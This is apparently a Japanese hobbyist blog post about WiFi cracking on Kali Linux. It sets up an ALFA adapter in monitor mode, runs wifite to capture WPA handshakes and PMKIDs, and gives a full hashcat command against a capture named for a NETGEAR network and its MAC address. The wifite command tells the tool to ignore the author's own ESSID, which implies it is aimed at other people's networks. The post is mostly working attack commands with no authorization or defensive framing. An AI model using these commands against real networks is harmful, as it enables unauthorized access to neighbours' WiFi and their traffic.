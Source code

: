 ```yaml
---
title: "Testing WiFi Tools with AWUS036AC on Kali Linux"
date: "2025-02-11 00:00:00 +0900"
categories: [Hacking, WiFi]
tags: [AWUS036AC, ALFA, WPA, WPA2, WiFi Hacking]
---
```


# WiFi Hacking on Kali Linux

背景:
- DIYしたWiFi PineappleでWiFi Crackについて学んでいた
- Kaliのツールでも似たようなことがしたくなった
- WiFiアダプター(`AWUS036AC`)を買って実践することにした (3000円 - Used)

## AWUS036AC導入

1. パッケージの更新
- システムを最新へ: `sudo apt update && sudo apt full-upgrade -y`
- パッケージをインストール: `sudo apt install realtek-rtl88xxau-dkms -y`

2. カーネルモジュールの確認
- モジュールのロード: `sudo modprobe 88XXau`
- ドライバがロードされているか確認: `lsmod | grep 88XXau`
- ![alt text](../assets/images/2025-02-11_18-11.png)

3. デバイスの認識確認
- デバイスが認識されているか確認: `iwconfig` or `ip a`
  - wlan1: を確認
- wlan1の詳細を確認: `sudo iwconfig wlan1` and `sudo iw dev wlan1 info`
  - ![alt text](../assets/images/2025-02-11_18-16.png)
  - "Mode: Managed" : 通常の Wi-Fi クライアントモードを確認

4. wlan1 をモニターモードに変更
```sh
sudo ip link set wlan1 down
sudo iw dev wlan1 set type monitor
sudo ip link set wlan1 up
sudo iw dev wlan1 info    # モニターモードを確認
```
- ![alt text](../assets/images/2025-02-11_18-19.png)

5. キャプチャのテスト
- `sudo airodump-ng wlan1`
  - ![alt text](../assets/images/2025-02-11_18-21.png)
- 準備完了

## Wifite を試す
- `Wifite`: 全自動で攻撃を進めてくれるツール
- `sudo wifite -mac --wpa --pmkid --kill --dict off --ignore-essid 自分のESSID,自分のESSID`
- handshakeをできるだけキャプチャして、後でhashcatでクラックするようにオプションを調整
  - 解説(その他オプション)
    - --power 60 : 信号強度が 60dB 以上のターゲットのみをスキャン
    - --wep : WEP クラックを試みる
    - --wpa : WPA/WPA2 クラックを試みる
    - --wps : WPS アタックを試みる
    - --pmkid : PMKID 攻撃を試みる
    - --dict off : 辞書攻撃を無効化（手動で別途解析する意図）
    - --kill : 他のプロセスを停止させる
    - --ignore-essid : 指定したSSIDを無視する（スペースで区切る）
## クラック
`hashcat -m 22000 -a 0 -w 3 --status /media/bentham/493b88d3-f6ad-4b7c-bd59-7beee9ed53f5/Projects/WiFi_Crack/pmkid_NETGEAR14_9C-3D-CF-50-D6-68_2025-02-12T11-34-52.22000 /media/bentham/493b88d3-f6ad-4b7c-bd59-7beee9ed53f5/Password_List/WPA-password-dictionary/merged_wordlist.txt --force`

## 参照

- [AWUS036AC](https://www.alfa.com.tw/products/awus036ac_1?variant=40320114327624)